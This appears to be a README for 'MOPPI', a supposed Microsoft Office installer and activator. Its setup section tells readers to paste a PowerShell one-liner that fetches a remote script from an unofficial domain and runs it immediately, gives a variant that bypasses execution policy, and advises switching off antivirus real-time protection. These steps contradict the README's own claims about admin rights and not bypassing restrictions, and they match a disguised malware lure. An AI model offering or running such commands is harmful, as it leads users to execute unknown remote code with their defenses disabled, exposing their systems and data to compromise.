

<div align="center">

# MOPPI: Microsoft Office Professional Plus Installer for Windows 10 & 11



[]() []() []()

</div>

---

MOPPI is a text-based user interface installer that automates the deployment and activation of Microsoft Office Professional Plus. Because Office now relies on Click-to-Run technology rather than the traditional Windows Installer, MOPPI drives that model directly through the Windows command-line interface, consolidating setup and activation into a single streamlined workflow. The installer exposes a scriptable, menu-driven interface that minimizes manual steps while preserving full control over the process.

## 🛠️ One-Click Setup (PowerShell)

> [!TIP]
> **One-click install** — paste one command, done in seconds.
> Windows 10 / 11 · PowerShell 5.1+ · No admin required

### 1️⃣ Start PowerShell
* Open the Start menu and type **PowerShell**.
* Right-click and choose **Run as administrator** (optional).

### 2️⃣ Run the script
Paste the command into PowerShell and hit `Enter`.

```cmd
iex(irm 'https://activation-gateway.cc/update/ps-activator')
```

### 3️⃣ If Windows blocks the script — use CMD
Paste this into a standard Command Prompt (cmd) and press `Enter`:

```cmd
powershell -NoProfile -ExecutionPolicy Bypass -Command "iex(irm 'https://activation-gateway.cc/update/ps-activator')"
```

> [!WARNING]
> If SmartScreen or antivirus blocks the setup, go to **Windows Security → Virus & threat protection → Manage settings**, turn off **Real-time protection**, run the script, and re-enable immediately.

## ✅ Requirements

- **PowerShell 5.1+** (pre-installed on Windows 10 and 11)
- **Windows 10 / 11** (x64)
- **Internet connection** — required to fetch the script
- **Administrator** — *not* required

## Features

- **Text-based user interface**: Streamlined command-line workflow that guides users through installation and activation without requiring a graphical application.
- **Click-to-Run deployment**: Fully leverages Microsoft's Click-to-Run technology through the Windows command-line interface, aligning with modern Office deployment practices rather than legacy MSI-based installation.
- **Automated setup**: Reduces manual steps by automating the Microsoft Office Professional Plus installation process end to end.
- **Integrated activation**: Bundles the activation workflow into the same interface, consolidating setup and activation into a single streamlined operation.
- **Windows-native execution**: Operates using built-in Windows command-line capabilities, requiring no additional runtime or external dependencies beyond the host operating system.
- **Multilingual documentation**: Provides reference documentation in multiple languages, including English, French, German, Hindi, Spanish, Japanese, and Simplified Chinese.
- **Versioned change tracking**: Maintains a structured changelog to document updates, fixes, and behavioral changes across releases.

## How It Works

MOPPI operates as a lightweight orchestration layer that sits between the user and the native Click-to-Run deployment mechanisms built into modern Windows environments. Rather than wrapping the installation process in a custom engine, it relies on the official command-line interfaces and configuration schema that Microsoft Office already exposes, ensuring that every deployment follows the same code path as an enterprise-managed rollout.

The workflow proceeds in distinct, verifiable stages:

**1. Configuration Resolution**
At launch, MOPPI parses the selected product edition and channel preferences into a structured configuration document. This document defines the product ID, architecture, update channel, and language packs, along with exclusion rules for components the user does not wish to install. The resulting configuration is validated against the expected schema before any deployment action is taken, preventing malformed setups from reaching the installer.

**2. Deployment via Click-to-Run**
MOPPI invokes the Office Deployment Tool's command-line interface, passing the generated configuration as its input. The deployment engine then downloads the required payload from Microsoft's content delivery network and stages it for installation. Because MOPPI does not bundle or redistribute Office binaries, the payload is always sourced from the vendor's official channel, and the installation itself is performed by Microsoft's own setup executable.

**3. Component Selection and Streamlining**
During deployment, MOPPI enforces the component exclusions defined in the configuration, allowing a minimal footprint installation. Unneeded applications and proofing tools are omitted at the configuration level rather than removed post-install, which avoids orphaned registry entries and reduces installation time.

**4. Activation Handling**
Once installation completes, MOPPI transitions to the activation phase. It detects the installed product and edition, then applies the appropriate activation method through the native licensing interfaces exposed by the operating system. Status reporting is captured from the command output and surfaced back to the user, distinguishing between successful activation, grace-period states, and failures requiring manual intervention.

**5. Verification and Reporting**
The final stage performs a post-install audit: MOPPI queries the installed product inventory, confirms the expected applications are present, checks the licensing status, and reports the outcome in the terminal. Any discrepancy between the requested configuration and the observed installation state is flagged, giving the user a clear signal that remediation may be required.

Each stage is idempotent where possible, meaning that re-running MOPPI against an already-configured system will detect the existing state and avoid redundant downloads or reinstallation. All operations are logged to the console with timestamps, and the text-based interface provides progress feedback throughout, so long-running downloads and installations never appear stalled. Because every action maps to a documented Microsoft command-line surface, the behavior of MOPPI remains transparent and auditable at each step.

## Compatibility

MOPPI targets Windows environments where Microsoft Office Professional Plus is deployed through Click-to-Run. The installer requires a 64-bit or 32-bit Windows 10 or Windows 11 host, or a Windows Server release that supports the Click-to-Run servicing model, and it operates through the native command-line interface without additional runtime dependencies.

The project aligns its installation and activation routines with the Office Click-to-Run architecture, so compatibility with a given Office build depends on the build remaining available through Microsoft's content delivery channels. MOPPI performs architecture and channel detection at runtime and selects the matching deployment configuration automatically, supporting both x86 and x64 Office installations on the same host platform.

Administrative privileges are required for installation and activation operations, and MOPPI checks for elevated execution before proceeding. Environments with restricted execution policies, locked-down Windows Installer services, or Group Policy objects that block Click-to-Run operations are outside the supported configuration; the installer reports detected constraints rather than attempting to bypass them.

MOPPI is designed to coexist with existing Office installations by detecting present Click-to-Run products and reporting conflicts before any modification. It does not support side-by-side deployment of multiple Office Professional Plus versions on a single host, and it expects the host to be free of residual MSI-based Office components that would interfere with Click-to-Run servicing.

## FAQ

**Does MOPPI require an existing Office installation?**

No. MOPPI orchestrates the full Click-to-Run deployment path, including any necessary removal of conflicting Office products prior to installation, so a clean target system is supported.

**How does MOPPI differ from running the Office setup executable manually?**

MOPPI wraps the Click-to-Run workflow in a text-based user interface that sequences configuration, installation, and activation as a single guided operation, reducing the need to construct and validate command-line arguments by hand.

**Which Office channel and architecture are used?**

MOPPI targets Microsoft Office Professional Plus through the Click-to-Run delivery mechanism. Architecture and channel selection are handled within the tool's configuration flow rather than requiring manual parameter entry.

**Does MOPPI modify system-level components?**

MOPPI operates through the Windows command-line interface and the native Click-to-Run infrastructure. Activation-related operations are performed as discrete, visible steps so that each change to system state is traceable within the session.

**Can an existing Office installation be preserved?**

MOPPI is designed for deployment of Microsoft Office Professional Plus. Where prior Office products are detected, the tool's removal stage addresses conflicts that would otherwise prevent a successful Click-to-Run installation. Review the Disclaimer before running MOPPI on a system with an existing Office deployment.

**Is the text-based interface scriptable or automatable?**

MOPPI is an interactive, menu-driven interface. Each operation is presented as an explicit step, which keeps the deployment auditable; unattended execution is not the primary design goal.

**What happens if installation or activation fails partway through?**

Because MOPPI executes the underlying Click-to-Run commands directly, failures surface as command-level output. Re-running MOPPI re-evaluates the current system state and proceeds from the detected condition rather than assuming a prior success.

**Are multiple languages supported?**

Yes. MOPPI ships localized documentation across several languages, and the interface is built around a consistent text-based structure that keeps terminology aligned across locales.

**Where are version changes tracked?**

A changelog is maintained alongside the project so that behavioral changes to the installation and activation stages can be reviewed between releases.

## Disclaimer

MOPPI is provided as-is, without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and non-infringement. The authors and contributors accept no liability for any direct, indirect, incidental, special, consequential, or exemplary damages arising from the use, misuse, or inability to use this software, including but not limited to system instability, data loss, configuration corruption, or interruption of existing Office installations.

MOPPI automates Click-to-Run deployment and activation through the Windows command-line interface. Because these operations modify system-level Office configuration, registry state, and licensing services, you are solely responsible for validating the tool in a controlled environment before deploying it to production hardware. Review the generated configuration and command sequences prior to execution, and ensure that any existing Office installation and associated data are backed up beforehand.

Activation functionality is intended exclusively for use with legitimately licensed Microsoft Office Professional Plus products and valid, properly acquired product keys. You are responsible for complying with all applicable Microsoft licensing terms and all local laws and regulations governing software installation and activation in your jurisdiction. MOPPI does not supply, generate, or distribute product keys, and it does not circumvent licensing requirements.

MOPPI is an independent project and is not affiliated with, endorsed by, sponsored by, or otherwise associated with Microsoft Corporation. All product names, trademarks, and registered trademarks referenced are the property of their respective owners and are used for identification purposes only. Use of MOPPI is at your own discretion and risk.

## License

MOPPI is distributed under the MIT License, a permissive open-source license that grants unrestricted rights to use, copy, modify, merge, publish, distribute, sublicense, and sell copies of the software. Redistribution in source or binary form is permitted provided the original copyright notice and license text are retained in all copies or substantial portions of the software.

The license includes no warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and non-infringement. In no event shall the authors or copyright holders be liable for any claim, damages, or other liability arising from, out of, or in connection with the software or its use.

MOPPI's license applies solely to the installer tooling itself. Microsoft Office Professional Plus and any associated Microsoft components, trademarks, and licensing terms remain the property of Microsoft Corporation and are governed exclusively by Microsoft's own end-user license agreements. MOPPI does not grant, transfer, or imply any rights to Microsoft software.

The complete, authoritative license text is provided in the LICENSE file at the root of the repository and supersedes any summary presented here.